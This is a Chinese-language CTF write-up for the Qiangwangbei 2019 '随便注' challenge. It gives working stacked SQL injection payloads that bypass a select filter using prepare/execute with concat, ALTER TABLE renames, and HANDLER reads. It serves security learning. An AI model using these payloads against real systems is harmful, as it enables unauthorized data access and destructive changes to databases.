 # [强网杯 2019]随便注 1

- 进入网页，输入 `1'` 报错，确定是单引号闭合，存在注入点，但既然是强网杯的题，肯定没有这么简单，在准备判断回显点的时候，就发现各个关键字被过滤了

> <img src="../../IMG2/Screenshot 2024-05-19 190035.png">

- 使用数组直接报错，所以这道题肯定不是绕过preg_match()函数，仔细思考，常用的注入方式不能使用，那么还剩冷门的堆叠注入，尝试堆叠注入，发现注入成功

> <img src="../../IMG2/Screenshot 2024-05-19 190319.png">

- 查看191的字段，发现了flag。注意，这里的表名是纯数字，需要使用反引号括起来

> <img src="../../IMG2/Screenshot 2024-05-19 190829.png">

- 但是这里又有问题了，查询字段内容一般来说必须使用select，但是这道题又给它过滤了。对于这道题，我们有三种解决方法

方法一：预编译

- 在mysql中，预编译命令就是使用prepare命令预先定义好需要执行的命令，并使用一个简短的名称代替，然后使用execute执行

> <img src="../../IMG2/Screenshot 2024-05-19 193141.png">

- 构建payload，为了绕过preg_match函数，我们使用concat()函数进行拼接

`1';prepare inject from concat('selec', 't * from (反引号)1919810931114514(反引号)');execute inject;#`

- 得到flag

> <img src="../../IMG2/Screenshot 2024-05-19 193837.png">

方法二：使用自带的select语句

- 如果我们不能自己传入select，还可以使用现成的，因为我们传入的参数一定会执行一次select查询。默认的查询表应该是words，所以我们可以把191的表名改为words，让我们的查询在191中进行，先查询words的字段信息，看看默认查询的是哪个字段

`1';desc words;#`

> <img src="../../IMG2/Screenshot 2024-05-19 200154.png">

- 可以知道默认查询的字段是id，显示的数据字段名是data，然后查看191的字段信息，查看需要更改哪些字段

`1';desc (反引号)1919810931114514(反引号);#`

> <img src="../../IMG2/Screenshot 2024-05-19 200829.png">

- 只有一个字段flag，那就将flag改为id

`1';alter table (反引号)1919810931114514(反引号) change flag id varchar(50);desc (反引号)1919810931114514(反引号)#`

> <img src="../../IMG2/Screenshot 2024-05-19 203449.png">

- 更改表名

`1';alter table words rename to words1;alter table (反引号)1919810931114514(反引号) rename to words;show tables;#`

> <img src="../../IMG2/Screenshot 2024-05-19 194550.png">

- 现在来想想如何得到flag，我们输入id，输出data，那么查询语句肯定有 `where id = ?` ，如果想要获得全部数据，则可以使用or来绕过where，如下

> <img src="../../IMG2/Screenshot 2024-05-19 205218.png">

- 最后得到flag

> <img src="../../IMG2/Screenshot 2024-05-19 205353.png">

方法三：使用handler

- handler是Mysql独有的查询字段数据的命令，需要打开，读取和关闭三步

`1';handler (反引号)1919810931114514(反引号) open;handler (反引号)1919810931114514(反引号) read first;handler (反引号)1919810931114514(反引号) close;`

> <img src="../../IMG2/Screenshot 2024-05-19 205822.png">